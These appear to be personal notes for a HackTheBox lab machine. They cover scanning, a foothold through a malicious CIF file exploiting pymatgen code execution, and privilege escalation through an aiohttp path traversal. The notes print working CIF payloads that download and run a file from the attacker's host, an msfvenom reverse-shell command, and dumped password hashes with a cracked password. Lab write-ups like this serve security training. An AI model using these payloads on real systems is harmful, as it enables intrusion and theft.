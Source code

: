 ```yaml
---
tags:
  - HTB
  - Linux
  - Seasonal
  - pymatgen
  - aiohttp
creation date: 2018-09-29
Date Completed: 2024-08-21
CVEs: CVE-2024-23334 CVE-2024-23346
URL: 
IP: 10.129.225.128
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 25 Oct 2024 17:30:26 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>

```

### ffuf (Directories/Subdomain/Files)
```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt:FUZZ -u http://10.129.225.128:5000/FUZZ -c
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt:FUZZ -u http://10.129.225.128:5000/FUZZ -c
```

`-recursion -recursion-depth 1`

When raft fails
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://10.129.225.128:5000/FUZZ -c
```
## Foothold

https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

this worked:
```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("wget http://10.10.15.64:8000/test");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

now to find a payload for a reverse shell 🙂

```
msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.15.64 lport=4444 -f elf > shell
```

```
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("wget http://10.10.15.64:8000/shell");0,0,0'
```


```
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("chmod +x shell");0,0,0'
```

```
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("./shell");0,0,0'
```

## Internal Enumeration

![[Pasted image 20241025132412.png]]

MyS3cretCh3mistry4PP

```
sqlite3
.open database.db
.dump
```
![[Pasted image 20241025133825.png]]
admin:2861debaf8d99436a10ed6f75a252abf
app:197865e46b878d9e74a0346b6d59886a
'rosa','63ed86ee9f624c7b14f1d4f43dc251a5');
'robert','02fcf7cfc10adc37959fb21f06c6b467');
'jobert','3dec299e06f7ed187bac06bd3b670ab2');
INSERT INTO user VALUES(6,'carlos','9ad48828b0955513f7cf0f7f6510c8f8');
INSERT INTO user VALUES(7,'peter','6845c17d298d95aa942127bdad2ceb9b');
INSERT INTO user VALUES(8,'victoria','c3601ad2286a4293868ec2a4bc606ba3');
INSERT INTO user VALUES(9,'tania','a4aa55e816205dc0389591c9f82f43bb');
INSERT INTO user VALUES(10,'eusebio','6cad48078d0241cca9a7b322ecd073b3');
INSERT INTO user VALUES(11,'gelacia','4af70c80b68267012ecdac9a7e916d18');
INSERT INTO user VALUES(12,'fabian','4e5d71f53fdd2eabdbabb233113b5dc0');
INSERT INTO user VALUES(13,'axel','9347f9724ca083b17e39555c36fd9007');
INSERT INTO user VALUES(14,'kristel','6896ba7b11a62cacffbdaded457c6d92');
INSERT INTO user VALUES(15,'hacker','6a204bd89f3c8348afd5c77c717a097a');

cat app.py
![[Pasted image 20241025134208.png]]

```
hashcat -m 0 rosa ~/share/kali_backup/tools/rockyou.txt
su rosa
unicorniosrosados
```

![[Pasted image 20241026082910.png]]

![[Pasted image 20241026082932.png]]

```
ssh -D 9050 rosa@10.129.225.128
proxychains firefox http://127.0.0.1:8080
```

![[Pasted image 20241026083020.png]]

![[Pasted image 20241026083159.png]]

## Linpeas

nothing:
![[Pasted image 20241026090137.png]]

![[Pasted image 20241026090308.png]]

nothing:
![[Pasted image 20241026090408.png]]
nothing:
![[Pasted image 20241026090504.png]]
false:
![[Pasted image 20241026091937.png]]

proxychains4 dirb http://127.0.0.1:8080/

proxychains4 curl http://127.0.0.1/8080

rosa
unicorniosrosados

====
proxychains4 dirb http://127.0.0.1:8080
proxychains4 dirb http://127.0.0.1:8080/ /opt/useful/seclists/Discovery/Web-Content/raft-large-files.txt

curl http://127.0.0.1:8080/assests/js/script.js
curl http://127.0.0.1:8080/assets/css/style.css

# Priv Esc

proxychains whatweb -v http://127.0.0.1:8080
Python/3.9 aiohttp/3.9.1
https://github.com/z3rObyte/CVE-2024-23334-PoC
https://github.com/jhonnybonny/CVE-2024-23334/blob/main/exploit.py

If you actually read the exploit (sometimes it takes finding a good article that explains whats happening) it will be a lot easier to modify the exploit so it works.
https://github.com/wizarddos/CVE-2024-23334